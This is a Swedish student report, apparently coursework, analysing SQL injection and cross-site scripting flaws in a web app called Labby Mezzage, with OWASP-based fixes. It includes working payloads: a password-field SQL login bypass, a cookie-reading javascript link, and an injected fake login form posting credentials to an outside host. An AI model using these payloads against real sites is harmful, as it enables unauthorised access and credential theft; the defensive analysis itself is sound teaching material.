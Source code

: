 #Säkerhets- och prestandaanalys av applikationen Labby Mezzage    
Andreas Bom, ab22cw    
   
   
###Inledning   
Jag kommer i denna rapport presentera säkerhets- och prestandabrister som webbapplikationen Labby Mezzage har, samt ge förslag på hur detta kan förbättras.   
Hädanefter kommer jag att referera den person eller de personer som utför ett hot mot säkerheten för 'hackare, 'hackaren' eller 'hackarna'.   


###SQL injections   
#####Beskrivning   
Injections är en säkerhetsbrist som ingår i kategorin 'Attack'. SQL injections är en av flera olika typer av injections som kan utföras[1]. Förfarandet går till genom att hackaren injecerar, eller infogar, en SQL-fråga i ett indatafält i klienten, som sedan exekveras på servern mot databasen. Vid en lyckad attack kan hackaren komma åt data från databasen, göra förändringar i databasen eller utföra operationer som är avsedd enbart för databasadministratören[2].   
#####Orsak    
SQL injections kan utföras om data tillåts komma från en opålitlig källa, eller om indata dynamiskt utgör SQL-frågan på servern[2].   

#####Förebyggande åtgärder   
Det finns flera åtgärder för att undvika SQL-injections[2]. 
1) Parameteriserade SQL-frågor   
2) Användning av lagrade procedurer   
3) Sanera input från användaren, så att inga 'farliga' tecken släpps fram till SQL-frågan.   
   
Rekommendationen är att i första hand använda parameteriserade SQL-frågor, därefter lagrade procedurer. Att använda sig av åtgärden sanera input från användaren medför större risker än de föregående två alternativen och ska användas med stor försiktighet[2].   
Utöver de ovan nämda åtgärderna rekommenderas att privilegier till användare har så låga rättigheter som är möjligt. D.v.s låt inte användare som enbart ska läsa eller skriva till databasen, ha rättigheter att kunna förändra databasstrukturen(radera databas, skapa nya användare etc.). Rekommendationen är också att använda sig av validering av indata så att felaktig eller skadlig indata aldrig når SQL-frågan[2].

####Labby Mezzage 
Applikationen har en inloggningssida där användaren måste ange emailadress och tillhörande lösenord för att kunna logga in och ta del av meddelanden.   
   
#####Problem   
Det är möjligt att logga in på applikationen utan att känna till email eller lösenord. Inloggning kan ske genom att skriva in en giltig emailadress (viken som helst) och istället för lösenord skrivs 1'or'1'='1 . Det som sker är att en SQL injeceras i lösenordsfältet och oavsett emailadress eller lösenord behöver vara korrekta, eftersom det sista som SQL-frågan säger är att 1=1. Detta kommer alltid vara sant, och innebär att hackaren loggas in.    
   
#####Förslag på lösning   
OWASPs rekommendation för att minimera risker med SQL injections är att implementera antigen parameteriserade SQL-frågor eller parameteriserade lagrade procedurer. Utöver detta bör previligerierna för databasen ses över, för att säkerställa att användarna har minsta möjliga rättigheter, utifrån vad de förväntas kunna göra[3].    
   
   
   
   

###XSS (Cross site scripting)    
#####Beskrivning   
XSS är en attack där hackaren injecerar skadligt script i en annars ofarlig och pålitlig webbsida. När andra användares webbläsare läser in scriptet, execveras det utan att veta att det är script som inte är pålitligt. Scriptet kan få access till användarens kakor, sessions tokens eller annan känslig data som lagras i användarens klient, och som sedan kan skickas och användas av hackaren. Syftet kan också vara att förstöra en webbsida genom att scriptet förändrar HTML-koden.[4].  
   
#####Orsak   
XSS möjliggörs genom att data tar sig in i en application genom en opålitlig källa eller att data skickas till en användare utan att ha blivit validerad från skadligt innehåll[4].   
   
#####Förebyggande åtgärder    
OWASP har en rad olika åtgärder som bör implementeras för att minimera risken med XSS[4].   
1)Tillåt opålitlig data endast på tillåtna platser.    
Exempel på platser där opålitlig data kan göra skada är mellan en scripttagg eller styletagg, i en HTML-kommentar, i ett attributnamn eller taggnamn.    
2) Sanera opålitlig data innan det används i
   *HTML element   
   *HTML attribut   
   *Data för Javascript    
   *Json data
   *Styles properties    
   *URL parameter    
Tillåt inte tecken så som <>&'"/ som output till dokumentet, utan använd istället dess HTML-motsvarighet (\&amp;, \&lt;, \&gt; etc. ).   
3)Om HTML ska tillåtas skickas in till applikationen, använd ett bibliotek som är avsedd till att sanera otillåten data.    
   

####Labby Mezzage   
Applikationen tillåter att 'farliga' tecken skrivs ut i listan med meddelanden. Det innebär att XSS är möjlig. Genom att skicka ett meddelande som t.ex. \<style>div{ background-color:black;}\</style> förändras sidans utseende och samtliga div-taggar (om de inte ändras  efter meddelandet) kommer att få en svart bakgrund. Att hämta ut värdet på sessionskakan är också fullt möjligt med följande script: \<a href="javascript: alert(document.cookie)">Link to something funny\</a>. Det går t.o.m att rendera upp ett formulär med fält och submit-knapp.    
\<form method="post" action="http://web.andreasbom.se">   
Name:   \<input type="text" name="name">   
Password: \<input type="text" name="Password">   
\<input type="submit" value="Logga in">   
\</form>     




   
   
      
   
   

###Referenser   
[1] "Category:Injection," OWASP, 4 November 2007 [Online] Tillgänglig: https://www.owasp.org/index.php/Category:Injection. [Hämtad: 30 November, 2015].   
   
[2] "SQL Injection," OWASP, 14 Augusti 2014 [Online] Tillgänglig: https://www.owasp.org/index.php/SQL_Injection. [Hämtad: 30 November, 2015].   
   
[3] "Guide to SQL Injection" OWASP, 9 Juli 2015 [Online] Tillgänglig: https://www.owasp.org/index.php/Guide_to_SQL_Injection . [Hämtad: 30 November, 2015]. 
   
[4] "Cross-site Scripting (XSS)" OWASP,22 April 2014 [Online] Tillgänglig: https://www.owasp.org/index.php/XSS. [Hämtad: 30 November, 2015].    
   
[4] "Cross-site Scripting (XSS)" OWASP,22 April 2014 [Online] Tillgänglig: https://www.owasp.org/index.php/XSS. [Hämtad: 30 November, 2015].


